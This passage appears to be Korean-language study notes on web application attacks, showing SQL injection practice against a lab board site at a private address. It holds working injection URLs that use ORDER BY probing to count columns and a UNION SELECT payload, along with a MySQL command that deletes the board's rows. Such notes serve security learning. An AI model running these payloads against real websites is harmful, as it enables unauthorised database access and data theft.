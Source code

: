 <br>

DB 확인

![2022-10-26-95디비](../images/2022-10-26-애플리케이션 공격 유형/2022-10-26-95디비.jpg)

<br>

union test

![2022-10-26-96유니온테스트](../images/2022-10-26-애플리케이션 공격 유형/2022-10-26-96유니온테스트.jpg)

<br>

행이 맞지 않으면 오류

![2022-10-26-97유니온테스트](../images/2022-10-26-애플리케이션 공격 유형/2022-10-26-97유니온테스트.jpg)

<br>

게시글 초기화

```
mysql> delete from board;
Query OK, 7 rows affected (0.01 sec)
```

<br>

게시글 5개 정도 추가

![2022-10-26-98게시글](../images/2022-10-26-애플리케이션 공격 유형/2022-10-26-98게시글.jpg)

<br>

board table 행(컬럼) 갯수

![2022-10-26-99행](../images/2022-10-26-애플리케이션 공격 유형/2022-10-26-99행.jpg)

![2022-10-26-100컬럼수](../images/2022-10-26-애플리케이션 공격 유형/2022-10-26-100컬럼수.jpg)

<br>

게시판 글 번호로 확인 컬럼의 갯수

```
order by 10(10번째 컬럼을 기준으로 정렬)
- 11개컬럼을 가지고 있는경우 12번째 컬럼으로 정렬해라 
http://172.16.0.110/board/board_view.php?num=43 order by 10
http://172.16.0.110/board/board_view.php?num=43 order by 11
http://172.16.0.110/board/board_view.php?num=43 order by 12  (게시판 출력 안됨) 

게시판의 컬럼은 총 11개 

- 정확한 컬럼수로 맞추지 않으면 게시판 내용 표시 안됨 
http://172.16.0.110/board/board_view.php?num=43 union select 1,2,3,4,5,6,7,8,9,10,11 #
```
